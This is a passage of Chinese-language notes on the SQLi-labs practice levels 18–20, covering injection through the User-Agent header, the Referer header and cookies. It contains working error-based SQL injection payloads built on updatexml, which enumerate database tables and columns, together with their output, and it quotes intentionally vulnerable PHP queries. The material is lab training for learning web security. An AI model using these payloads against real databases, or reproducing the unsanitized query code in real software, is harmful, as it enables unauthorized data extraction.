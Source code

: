 注入的语句和上面17题的简单注入即可。

```sql
// 看了源码，尝试爆破uagent表
'qing' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='uagents'),0x7e),0) or ''
// 结果：XPATH syntax error: '~id,uagent,ip_address,username~'
// 爆破这个表的意义不大， 因为我是输入账号密码进来的，意义还是爆破其他的表。
'qing' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),0) or ''
// 结果：XPATH syntax error: '~emails,referers,uagents,users~'
```



##### 19. Header Injection - Referer field - Error based

看了源码，就是将注入的地方改成了http请求头的`Referer`字段

```php
	$uagent = $_SERVER['HTTP_REFERER'];
	$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
			}else {}
```

注入代码如上题目。



##### 20. Cookie injections - Uagent field - error based

看题目应该是cookie字段注入了。

```php
if(!isset($_COOKIE['uname'])) {
	$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
	$cookee = $row1['username'];
  if($row1)
			{
    		// 将查询到的信息，写入到的cookie中。
				setcookie('uname', $cookee, time()+3600);	
     	}	
 else {
   	if(!isset($_POST['submit']))
		{
      // 下次网页刷新，直接取出cookie的uname字段去查找，并且存在报错输出语句。
			$cookee = $_COOKIE['uname'];
      $sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
			$result=mysql_query($sql);
			if (!$result)
  				{
  				die('Issue with your mysql: ' . mysql_error());
  				}
			$row = mysql_fetch_array($result);
      if($row) {} else {}
    }
 } 

	
```